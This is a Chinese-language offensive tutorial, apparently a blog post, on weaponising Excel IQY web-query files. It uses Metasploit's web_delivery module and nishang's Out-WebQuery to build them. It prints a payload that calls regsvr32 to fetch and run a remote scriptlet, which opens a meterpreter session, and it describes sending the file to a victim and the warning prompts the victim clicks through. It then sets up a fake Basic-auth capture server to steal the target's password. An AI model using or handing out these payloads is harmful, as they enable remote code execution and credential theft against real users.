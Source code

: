 ```bash
exploit/multi/script/web_delivery
```

![image-20210320103426217](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173815.png)

用nishang中提供好的Out-WebQuery脚本来生成iqy文件

> **iqy文件本身的内容很简单，只有一个包含恶意payload的url：http://192.168.2.148/msf.html ，关键也就在这个 html,我们需要把 html 的内容换成加载我们上面准备好的 meterpreter payload 的 iqy 语句 ：regsvr32 /s /n /u /i:http://192.168.2.148:8080/ZTPzcY6J5.sct scrobj.dll**

然后利用 `nishang-master\Client\Out-WebQuery.ps1` ,生成文件

```cmd
powershell -exec bypass -Command "& {Import-Module ".\Out-WebQuery.ps1";Out-WebQuery -URL http://192.168.2.148:8000/msf.html}"
```

![image-20210320104230006](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173816.png)

命令成功执行后，会生成一个`iqy文件`

接下来，打开Web服务目录，创建msf.html,内容为刚刚msf生成的paylaod

```txt
=cmd|'/c regsvr32 /s /n /u /i:http://192.168.2.148:8080/ZTPzcY6J5.sct scrobj.dll '!A0
```

接下来就可以想办法把之前生成的`iqy文件`发送给受害者。

当受害者双击打开时，默认会用Excel打开，弹出警告，点击启用

![image-20210320104826301](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173817.png)

因为前面的iqy文件是用cmd执行的，所以会继续询问是否启动另一个应用程序，CMD.EXE.

![image-20210320104948760](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173818.png)

点击是，正常情况下监听的msf会生成一个会话。

**借助IQY窃取目标用户密码**

```cmd
powershell -exec bypass -Command "& {Import-Module ".\Out-WebQuery.ps1";Out-WebQuery -URL http://192.168.2.1}"
```



```cmd
powershell -exec bypass
cd .\Utility 
Import-Module .\Start-CaptureServer.ps1 
Start-CaptureServer -AuthType Basic -IPAddress 192.168..2.1 -LogFilePath C:\windows\temp\log.txt
# 注意此处的认证要选择基础认证,监听的 ip 和上面生成 iqy 文件中的 ip 一致,通常都是本机 i
```

之后把上一步生成的 IQY文件发给靶机，打开	

![image-20210320112924327](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173819.png)
